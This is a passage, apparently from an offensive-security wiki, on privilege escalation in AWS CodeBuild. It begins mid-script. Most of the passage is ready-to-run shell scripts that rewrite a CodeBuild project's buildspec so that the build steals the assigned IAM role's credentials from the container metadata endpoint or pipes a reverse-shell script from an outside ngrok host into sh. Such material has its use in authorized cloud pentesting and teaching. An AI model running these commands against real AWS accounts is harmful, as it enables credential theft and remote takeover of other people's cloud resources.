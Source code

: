 ```bash
    \"artifacts\": {
        \"type\": \"NO_ARTIFACTS\"
    },
    \"environment\": {
        \"type\": \"LINUX_CONTAINER\",
        \"image\": \"aws/codebuild/standard:1.0\",
        \"computeType\": \"BUILD_GENERAL1_SMALL\"
    },
    \"serviceRole\": \"arn:aws:iam::947247140022:role/codebuild-CI-Build-service-role-2\"
}"

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```

**Potential Impact:** Direct privesc to any AWS Codebuild role.

### `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

Like in the previous section but **without the `iam:PassRole` permission**, you can abuse this permissions to **modify existing Codebuild projects and access the role they already have assigned**.

{% tabs %}
{% tab title="StartBuild" %}
{% code overflow="wrap" %}
```sh
REV_PATH="/tmp/codebuild_pwn.json"

# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh"

JSON="{
    \"name\": \"<codebuild-demo-project>\",
    \"source\": {
        \"type\": \"NO_SOURCE\",
        \"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
    },
    \"artifacts\": {
        \"type\": \"NO_ARTIFACTS\"
    },
    \"environment\": {
        \"type\": \"LINUX_CONTAINER\",
        \"image\": \"public.ecr.aws/h0h9t7p1/alpine-bash-curl-jq:latest\",
        \"computeType\": \"BUILD_GENERAL1_SMALL\",
        \"imagePullCredentialsType\": \"CODEBUILD\"
    }
}"

# Note how it's used a image from AWS public ECR instead from docjerhub as dockerhub rate limits CodeBuild!

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```